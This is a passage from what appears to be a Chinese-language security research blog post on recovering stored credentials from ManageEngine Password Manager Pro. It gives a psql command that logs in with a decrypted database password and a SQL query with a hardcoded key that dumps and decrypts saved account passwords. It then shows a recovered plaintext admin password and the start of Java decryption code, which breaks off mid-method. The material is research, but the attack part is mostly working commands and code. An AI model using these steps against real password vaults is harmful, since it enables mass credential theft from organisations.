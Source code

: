 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-8-17/3-4.png)

这里直接获得了明文口令`N5tGp!R@oj`，测试该口令是否有效的命令：`"C:\Program Files\ManageEngine\PMP\pgsql\bin\psql" "host=127.0.0.1 port=2345 dbname=PassTrix user=postgres password=N5tGp!R@oj"`

连接成功，证实口令解密成功，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-8-17/3-5.png)

解密保存凭据的命令示例：`select ptrx_account.RESOURCEID, ptrx_resource.RESOURCENAME, ptrx_resource.DOMAINNAME, ptrx_resource.IPADDRESS, ptrx_resource.RESOURCEURL, ptrx_password.DESCRIPTION, ptrx_account.LOGINNAME, decryptschar(ptrx_passbasedauthen.PASSWORD,'u001JO4dpWI(%!^#') from ptrx_passbasedauthen LEFT JOIN ptrx_password ON ptrx_passbasedauthen.PASSWDID = ptrx_password.PASSWDID LEFT JOIN ptrx_account ON ptrx_passbasedauthen.PASSWDID = ptrx_account.PASSWDID LEFT JOIN ptrx_resource ON ptrx_account.RESOURCEID = ptrx_resource.RESOURCEID;`

输出如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-8-17/3-6.png)

提取出数据为`PcQIojSp6/fuzwXOMI1sYJsbCslfuppwO+k=`

#### (3)使用`PMPConfKey`解密得到最终的明文

通过解密程序，最终可计算得出明文为`iP-6pI24)-`

登录Web管理后台，确认解密的明文是否正确，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2022-8-17/3-7.png)

解密成功

## 0x03 开源代码
---

以上测试的完整实现代码如下：

```
import java.security.*;
import java.security.spec.InvalidKeySpecException;
import java.util.Base64;
import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.PBEKeySpec;
import javax.crypto.spec.SecretKeySpec;


class PimpMyPMP  {

    private static Cipher cipher;

    private void initCiper(byte[] aeskey, int opmode, byte[] ivArr) throws Exception {
        try {
            cipher = Cipher.getInstance("AES/CTR/PKCS5PADDING");
            SecretKeyFactory factory = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1");
            PBEKeySpec spec = new PBEKeySpec((new String(aeskey, "UTF-8")).toCharArray(), new byte[]{1, 2, 3, 4, 5, 6, 7, 8}, 1024, 256);
            SecretKey temp = factory.generateSecret(spec);
            SecretKey secret = new SecretKeySpec(temp.getEncoded(), "AES");
            cipher.init(opmode, secret, new IvParameterSpec(ivArr));
        } catch (NoSuchAlgorithmException var8) {
```